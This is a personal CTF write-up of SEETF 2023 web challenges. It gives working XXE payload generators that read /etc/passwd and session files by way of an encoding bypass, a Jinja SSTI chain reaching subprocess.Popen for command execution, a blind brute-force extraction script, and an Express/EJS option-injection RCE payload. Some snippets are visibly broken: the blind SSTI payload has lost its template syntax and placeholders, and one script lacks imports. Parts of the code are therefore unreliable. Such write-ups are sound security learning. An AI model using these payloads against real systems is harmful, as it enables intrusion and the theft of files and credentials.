

# SEETF 2023

# Headspace



Big thanks to `team elmo` for letting me play with them for SEETF 2023 and ending in Second Place in Singapore Students Category. Thanks to SEE for hosting this CTF and also, congratulations to the other winners from the Open and Students category!

I felt that overall, the CTF challenges were rather intriguing and as much as I could only solve 3 of the webs, there were some that I felt maybe I just needed to get exposed to it such as the PHP ones since the initial vector was clear. But it’s alright! I learnt quite a handful from this CTF. In the next SEETF, I am going to try to solve more web challenges (hopefully future me isn’t too burnt out haha).

# Web

## ezxxe


### Description

Nobody:

Absolutely nobody:

Not a single soul:

Chinese CTF challenge names:

- `ez____`
- `easy____`
- `baby____`

### Solution

Viewing the endpoint handlers, we see the following endpoints.

```markdown
/api/pigeons
/api/export
/api/import
```

From here, we can start reviewing the logic behind each of them respectively. However, once we review its respective logic, we see something interesting in `/api/import`.


First, we see on line 95, that it will attempt to validate the XML input. This calls `validateXML()` . Tracing to `validateXML()` we can see clearer what it is trying to validate - rather what it is trying to block.


By (1), we see that the function attempts to prevent the values found in `BLACKLIST` which seems to be crucial for XXE to occur. By (2), the XML content must have the xml header at the start and needs to be exactly the following

```markdown
<?xml version="1.0" ...
...
```

However, this means that essentially we can’t do any XXE attack right? Nope! Instead if we were to refer [https://mohemiv.com/all/evil-xml/](https://mohemiv.com/all/evil-xml/), the concept is rather interesting, we keep the XML header in UTF-8, but for the remaining of the XML payload, we convert them to UTF-16 and the XML parser will happily accept it. Furthermore, the regex checks would fail to detect the malicious keywords on the UTF-16 portion.

Following on, we see the following code block.


Our XML input is parsed by the `libxmljs` parser on line 102. On this line, the `parseXMl()` also specifies 2 additional options

```markdown
noent: true -> Enables substituion of XML entity references
nonet: true -> Disables networking capabilities
```

From this, we see that we can clearly perform a XXE attack on the application through the `/api/import` endpoint, which then gets added to the `req.session.pigeons` at the end. Let’s try to generate the “double-encoding” XXE payload to get `/etc/passwd` using the following script.

```jsx
import codecs
import os

cwd = os.path.dirname(os.path.realpath(__file__))

# Define the XML content
xml_head = b'<?xml version="1.0" encoding="UTF-16BE"'

xml_payload = '''?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<pigeons>
  <pigeon>
    <name>&xxe;</name>
    <image>ice.jpeg</image>
    <description>A special kind of drone that can fly in the cold. It is used for espionage campaigns in the Arctic.</description>
    <website>https://en.wikipedia.org/wiki/Ice_pigeon</website>
  </pigeon>
</pigeons>'''

# Encode the XML content to UTF-16BE
encoded_xml = xml_payload.encode('utf-16be')

# Write the encoded XML to a file
with codecs.open(cwd + '/payload.xml', 'wb') as file:
    file.write(xml_head + encoded_xml)
```

Running the script and uploading it, now we get the `/etc/passwd` contents as seen below.


Nice! Our XXE vector is working and now, we just need the flag. You might ask then where’s the flag? For me, how I found the flag was to just run around the docker instance, and thankfully it was found in the `/home/ezxxe/app/sessions/` directory. Refer to the following screenshots.


We see that in the `<SESSION>.json` file, the flag can be seen and the `connect.sid` value will tell us what this `<SESSION>` value is. With that, we just need to access the `/home/ezxxe/app/sessions/<SESSION>.json` similar to how we did for `/etc/passwd`.


But as we can see above, once we upload the newly crafted XML payload, everything disappears. There is a reason, if we refer to the code block at line 66-71 for the `/api/pigeons` which is called after every importing of our XML.


From the code, we see that on line 70, it calls the `removePigeonsWithFlag()` with the parameter - `req.session.pigeons`


In this `removePigeonsWithFlag()` function, it attempts to remove all occurrences of the `SEE{...}` flag which makes sense why our payload fails to retrieve the content. Again, you might think then wouldn’t it be impossible to retrieve the flag out? But here’s another catch.


Since the `flagRegex` uses the global flag, this will be relevant to us. It states that if the `test()` returns true (meaning when it matches), the `lastIndex` doesn’t change. Let’s put this to the test.

```jsx
const flagRegex = /SEE{\w{9}}/ig
flag = "SEE{123456789}"

//`lastIndex=0`
console.log(!flagRegex.test(flag)) // false
// `lastIndex=14`
console.log(!flagRegex.test(flag)) // true
```

Pretty weird isn’t it ~ By this, we can essentially just fire a second “pigeon” with the same content to sneak pass the regex `test()` as long as the flag appears in the pigeon’s name. (Refer to Side-notes for more details on how this bypass works.)


With that, we can successfully get the flag!

### PoC Script

```python
# Written by Kair0s3
# Purpose - To generate UTF8x16BE encoding
# XXE payload for SEETF 2023 ezxxe challenge
import codecs
import os

cwd = os.path.dirname(os.path.realpath(__file__))

# UTF 8 xml heading
xml_head = b'<?xml version="1.0" encoding="UTF-16BE"'

# Replace with your own session.
session = "xtRhaqi2RnjbA9CbTQLnLzFmR3rHtB2K"

xml_payload = '''?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///home/ezxxe/app/sessions/SESSION.json">
]>
<pigeons>
  <pigeon>
    <name>aaaa</name>
    <image>ice.jpeg</image>
    <description>A special kind of drone that can fly in the cold. It is used for espionage campaigns in the Arctic.</description>
    <website>&xxe;</website>
  </pigeon>
  <pigeon>
    <name>&xxe;</name>
    <image>ice.jpeg</image>
    <description>A special kind of drone that can fly in the cold. It is used for espionage campaigns in the Arctic.</description>
    <website>https://en.wikipedia.org/wiki/Ice_pigeon</website>
  </pigeon>
</pigeons>'''.replace('SESSION', session)

# Encode the XML content to UTF-16BE
encoded_xml = xml_payload.encode('utf-16be')

# Write the encoded XML to a file
with codecs.open(cwd + '/payload.xml', 'wb') as file:
    file.write(xml_head + encoded_xml)

```

### Flag

```python
SEE{1t_w4s_n0t_th4t_hard_1_h0p3_d5e7bff2ecaca8981a5577ac04f581ff}
```

### Side-notes

The reason for using the `name` on the first pigeon works is because, of something known as short circuit if am not wrong (please correct me if I am wrong haha). So essentially to save on performance, e.g. `False && True` is always false, so even if `False && True && True` is false, so it just cuts right after the check is false. Thus the flow from first pigeon to second pigeon is as such

```jsx
// Both pigeon[0].name and pigeon[1].name is the same
// And contains the flag.
!flagRegex.test(pigeon[0].name) -> False
-> short circuit -> jumps to check next pigeon
!flagRegex.test(pigeon[1].name) -> True
!flagRegex.test(pigeon[1].image)
...
```

Thus, allowing our `pigeon[1]` which coincidentally also has the `flag` value to be returned as a “clean” pigeon.

### After-thoughts

Pretty interesting challenge, the XXE part of the challenge was something familiar, except that I had used UTF-7 encoding to bypass - sadly `libxmljs` doesn’t accept UTF-7 😢. The more interesting part is definitely the quirky way that the regex `test()` uses the global flag.

### References

```python
# https://www.stackhawk.com/blog/nodejs-xml-external-entities-xxe-guide-examples-and-prevention/
# https://mohemiv.com/all/evil-xml/
# https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/test
# Use https://www.jdoodle.com/execute-nodejs-online/ to test out the regex code
```

## File Uploader 1


### Description

A place where you can upload files? But there are so many strict filters!!! How can you possibly bypass them??

Note: On remote, files are cleaned up every minute.

### Solution

Reviewing the source code, we see that the application takes in a file upload, and checks it against a list of allowed extensions as seen below.


The `fileext` value is set by calling the function `get_fileext()` as seen by (1) and it seems that the value is `None` if the file extension is not allowed by (2).


Once it has the `fileext` value, it checks on the `if` condition. And in this case if the extension is invalid, this check fails, going in the `else` clause.

In this `else` clause, we see a rather clear template injection (SSTI) vector in the code block from line 48-72. Thus, this is where we want to be in - so invalid file extension ftw ~


Now, we see that for (1), the template takes in `file.filename` which we as the attacker control. This means we can inject whatever, we are want (at least initially). And once it passes through an extensive validation, it renders the contents in `template` variable.

But here’s the main challenge, the `l1`, `l2` and the regex checks make it much more painful than a straight forward SSTI attack.

Let’s work on this sequentially. First starting with `l1`.

```python
l1 = ['+', '{{', '}}', '[2]', 'flask', 'os','config', 'subprocess', 'debug', 'read', 'write', 'exec', 'popen', 'import', 'request', '|', 'join', 'attr', 'globals', '\\']
```

We see that we can’t use the simple template injection payload → `{{7*7}}` since the double curly braces are blocked. Referring to [https://hackmd.io/@Chivato/HyWsJ31dI](https://hackmd.io/@Chivato/HyWsJ31dI), we see that there is another way, using a templating feature for `if` conditions - `a` . This solves the first issue of not having any templating injection vector. Now, we need just need to figure out how to obtain a `class` gadget for us to leverage on for running commands without **facepalming** the `l1` list.

To do so, the resource above also provides a way using the `get_flashed_messages`. Using it, we can try to dump out all of the classes available to us.

But remember `{{XXX}}` is not allowed, so it’s a little difficult to blindly find out the list of the classes. So, one way would be to remove the curly brace from `l1` or the entire code block for the validation for your own docker instance - that way, you can easily see the list of classes available.

```python
import re
import os

cwd = os.path.dirname(os.path.realpath(__file__))

payload = "{{get_flashed_messages.__class__.__mro__[1].__subclasses__()}}"

files = {
    'file' : (f"{payload}.exe", '123')
}

print(html.unescape(r.text))
content = html.unescape(r.text)

pattern = r"\[(.*?)\]"
match = re.search(pattern, content)
if match:
    extracted_value = match.group(1)
    print(extracted_value)

split = extracted_value.split(', ')
print(len(split))
with open(cwd + "/gadgets.txt", 'w') as f:
    for g in split:
        f.write(g + "\n")
```

By doing so, we get the entire list of the classes in a file. Now it should be formatted nicely in a `gadgets.txt` file. We just need to look for something we could use.


Maybe `os`? How about `subprocess`? Let’s see if they exists.


Sadly `os` doesn’t exists, but `subprocess.Popen` does! Let’s use it, we know it is on line 395 → so zero-indexing would be 394. For sanity purpose, let’s try it out with a python request script.

```python
import requests
import html
import os

cwd = os.path.dirname(os.path.realpath(__file__))

pattern = r"\[(.*?)\]"

files = {
    'file' : ("{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[394]}}.exe", '123')
}

r = requests.post('http://localhost/upload', files=files)
print(html.unescape(r.text))
content = html.unescape(r.text)
exit()
```

With that we see the following output.

```python
<class 'subprocess.Popen'>.exe is not valid because it is too big or has the wrong extension
```

We see that the `subprocess.Popen` class appears which is good, now we just need to find a way to run the command. To run a command through `Popen` is rather simple, we just need to do the following

```python
{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[394]('id', shell=True, stdout=-1).communicate()}}
```

Essentially, it’s how we would use `subprocess.Popen` to run commands in python. In this case, the `stdout=-1` refers to returning the output of the command as a byte string instead of `stdout` which will print to the server’s terminal such as the following.


Thus we use `stdout=-1`, which will give us the output which we can see.

```python
(b'uid=1010(userr) gid=10101(userr) groups=10101(userr)\n', None).exe is not valid because it is too big or has the wrong extension
```

Oks! Now, we are at the last few juncture the `l2` and the regex matching.

For `l2` it simply restricts us from using commands in the list.


As for the 2 regexes, to summarize, it essentially checks that anything in the single or double quotes need to be alphanumeric, space, forward slash, dot and dash. So we can run stuff like `ls -al` but not `ls $0`.

So we know the 2 constraints how do we move forward? For me with only use `cat` to read files, I asked chatGPT for all of the ways to read a file’s content and it gave me 2 interesting commands that weren’t in the `l2` list.


I tried using `od` but damn, it’s pretty bad cause it’s in pretty rough format.


What about `nl flag.txt`?


Much better! Let’s see if it passes the filters. Modifying the code a little to the following and running it

```python
...
files = {
    'file' : ("{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[394]('nl flag.txt', shell=True, stdout=-1).communicate()[0].decode()}}.exe", '123')
}
...
```


There’s the flag! But recall that we are unable to use `{{INJECTION}}` to print out the value. So, we have to do it with a blind binary search method and using the `if` templating clause. Example…

```python
# So if it's true -> `kair0s3` appears, else nothing.
 kair0s3 
```

Also, to avoid using invalid characters when doing the binary search e.g. `'_' == XXXXX`, we make use of `int.to_bytes` functionality in python.

```python
# Example we want to check if value is _
# In ascii -> this is 0x5f or 95
# So, to convert it inside ascii character we do as the following
95.to_bytes(1, byteorder='little').decode()
# OR
0x5f.to_bytes(1, byteorder='little').decode()
# Both will give '_'
```

Thus, with everything we have gathered for this challenge, we can craft the final snippet of payload for retrieving the flag.

```python
...
for i in range(9 + len(flag), 60):
    for dec in range(33, 127):
        payload = " kair0s3 "
        payload = payload.replace('DEC', f"{dec}.to_bytes(1, byteorder='little').decode()")
        payload = payload.replace('IDX', str(i))
        print("Checking if flag is", flag + chr(dec), i)
...
```

*Note that for the rationale of using of index `9` can be found Side-notes. It has to mainly do with wanting to save time and get only from the flag offset.*

Once, we run the binary search, it will return the following


And a little of waiting, voila. The flag has been successfully exfiltrated out.

### PoC

```python
# By Kair0s3
# Purpose - Blind binary search SSTI
# for File Uploader 1 challenge
import requests
import time

flag = "SEE{y0U_6yPa55Ed_FuNny_55t1_f1lTer"

for i in range(9 + len(flag), 60):
    for dec in range(33, 127):
        payload = " kair0s3 "
        payload = payload.replace('DEC', f"{dec}.to_bytes(1, byteorder='little').decode()")
        payload = payload.replace('IDX', str(i))
        print("Checking if flag is", flag + chr(dec), i)
        files = {
            'file' : (f"{payload}.exe", '123')
        }

        r = requests.post('http://fu1.web.seetf.sg:1337/upload', files=files)
        print(r.text)
        if 'kair0s3' in r.text:
            flag += chr(dec)
            print("Found!", flag)
            if flag[-1] == '}':
                print("Final Flag", flag)
                exit()
            break
        elif "nice try" in r.text:
            flag += "_"
            print("Found!", flag)
            break
        # To prevent dos-SEE's server
        time.sleep(0.25)
exit()
```

### Flag

```markdown
SEE{y0U_6yPa55Ed_FuNny_55t1_f1lTer5}
```

### Side-notes

For the `nl` command, it formats in the form of

```python
     1  # SEE{<REDACTED>}
```

*Note that I will be explaining in zero-indexing format*

Let’s call this output `flag`, so for `flag[0]` to `flag[4]` are all spaces.

Afterwards `flag[5]` is the line number. `flag[6]` is a space, `flag[7]` is the hashtag symbol followed by one more space on `flag[8]`.

Now from `flag[9]` is offset where the actual flag can be found. Thus, the main rationale is to prevent checking the non-essential values, we just work from `flag[9]` onwards.

Also, the reason for using a `time.sleep(0.25)` was because of my script failing initially which I thought was due to my own script issues but turned out to be me getting rate-limited by SEE server since there was too much request over a period of time.

### References

```python
# https://hackmd.io/@Chivato/HyWsJ31dI
```

## Express JS (YEET, do another time)

### PoC

```python
greet?name=&settings[view%20options][client]=true&settings[view%20options][escape]=1;return%20global.process.mainModule.constructor._load(%27child_process%27).execSync(%27/readflag%27);
```

### Flag

```python
SEE{0h_n0_h0w_d1d_y0u_ch4ng3_my_0pt10ns}
```

# MISC

## Word Solver (IGNORE ME. Document another day)

Credits to [https://github.com/James231/Wordsearch-Solver-Python](https://github.com/James231/Wordsearch-Solver-Python)

Not the fastest solve definitely, but just pure modifications to existing code.

Modified abit of the code to perform a somewhat binary search with the DFS algorithm employed by the solver.

Damn the flag is long af

```python
['SEE{y', 'SEE{yo', 'SEE{you', 'SEE{you_', 'SEE{you_f', 'SEE{you_fo', 'SEE{you_fou', 'SEE{you_foun', 'SEE{you_found', 'SEE{you_found_', 'SEE{you_found_m', 'SEE{you_found_me', 'SEE{you_found_me_', 'SEE{you_found_me_n', 'SEE{you_found_me_no', 'SEE{you_found_me_now', 'SEE{you_found_me_now_', 'SEE{you_found_me_now_t', 'SEE{you_found_me_now_tr', 'SEE{you_found_me_now_try', 'SEE{you_found_me_now_try_', 'SEE{you_found_me_now_try_t', 'SEE{you_found_me_now_try_th', 'SEE{you_found_me_now_try_the', 'SEE{you_found_me_now_try_the_', 'SEE{you_found_me_now_try_the_1', 'SEE{you_found_me_now_try_the_13', 'SEE{you_found_me_now_try_the_133', 'SEE{you_found_me_now_try_the_1337', 'SEE{you_found_me_now_try_the_1337e', 'SEE{you_found_me_now_try_the_1337er', 'SEE{you_found_me_now_try_the_1337er_', 'SEE{you_found_me_now_try_the_1337er_o', 'SEE{you_found_me_now_try_the_1337er_on', 'SEE{you_found_me_now_try_the_1337er_one', 'SEE{you_found_me_now_try_the_1337er_one}']
```
